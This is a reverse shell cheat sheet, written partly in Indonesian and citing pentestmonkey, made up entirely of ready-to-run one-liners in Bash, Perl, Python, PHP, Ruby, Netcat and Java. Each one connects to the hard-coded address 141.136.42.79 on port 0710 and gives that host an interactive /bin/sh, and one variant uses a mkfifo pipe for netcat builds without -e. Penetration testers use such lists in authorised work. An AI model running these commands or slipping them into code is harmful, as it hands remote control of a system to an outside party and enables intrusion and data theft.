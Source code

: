 
### Bash

bash -i >& /dev/tcp/141.136.42.79/0710 0>&1
 
### Perl
perl -e 'use Socket;$i="141.136.42.79";$p=0710;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("141.136.42.79",0710));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP
php -r '$sock=fsockopen("141.136.42.79",0710);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby
ruby -rsocket -e'f=TCPSocket.open("141.136.42.79",0710).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat
nc -e /bin/sh 141.136.42.79 0710

jika netcat yang terinstall itu versi yang berbeda maka bisa memakai ini untuk reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 141.136.42.79 0710 >/tmp/f

### Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/141.136.42.79/0710;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

Referensi
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
